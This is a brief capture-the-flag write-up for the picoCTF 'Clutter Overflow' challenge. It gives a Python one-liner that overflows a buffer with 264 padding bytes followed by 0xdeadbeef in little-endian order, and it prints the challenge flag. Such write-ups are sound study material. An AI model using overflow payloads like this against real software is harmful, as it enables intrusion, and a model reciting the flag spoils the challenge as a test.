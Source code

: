 # Clutter Overflow

## Solution
Analysed the code and figured out that the code variable was supposed to be 
equal to hex value 0xdeadbeef and had to be typed out after 264 characters
which could be anything so i entered the password as a random 264 character
string followed by deadbeef using 
```
python -c "print 'A'*264 + '\xef\xbe\xad\xde'"
```



## Flag
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

# Concepts Learnt
For 8 bit sequence format is \x..\x..\x..\x..



# Notes
None


# Resources
None 

